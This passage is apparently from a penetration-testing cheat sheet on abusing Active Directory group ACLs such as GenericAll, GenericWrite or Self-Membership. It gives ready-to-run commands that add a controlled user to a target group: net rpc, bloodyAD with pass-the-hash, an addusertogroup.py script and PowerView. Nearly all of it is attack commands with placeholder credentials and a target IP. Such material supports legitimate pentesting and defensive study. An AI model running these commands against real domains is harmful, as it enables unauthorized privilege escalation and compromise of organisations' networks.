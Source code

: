 **this attack is possible when the controlled account has** `GenericAll`**,** `GenericWrite`**,** `Self`**,** `AllExtendedRights`**, or** `Self-Membership` **over the target group.**

Once we found the right user or group with one of these ACLs we can exploit it with the following commands

```sh
net rpc group addmem 'Vulnerable Group' otter -U domain.com/otter%'SomethingSecure123!' -S 10.10.10.10
# verify the changes took place
net rpc group members 'Vulnerable Group' -U domain.com/otter%SomethingSecure123! -S 10.10.10.10
```

If we only have the hash for the user we can either use the [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) or bloodyAD

```sh
bloodyAD --host "10.10.10.10" -d "domain.com" -u "otter" -p "ffffffffffffffffffffffffffffffff:<NTLM_HASH>" add groupMember 'groupName' 'userToAdd'
```

We can also use the [addusertogroup](https://github.com/juliourena/ActiveDirectoryScripts/blob/main/Python/addusertogroup.py) script

```sh
python3 addusertogroup.py -d domain.com -g "Vulnerable Group" -a otter -u otter -p 'SomethingSecure123!'
```

From windows we can use powerview

```sh
Add-DomainGroupMember -Identity "Vulnerable Group" -Members otter -Verbose
```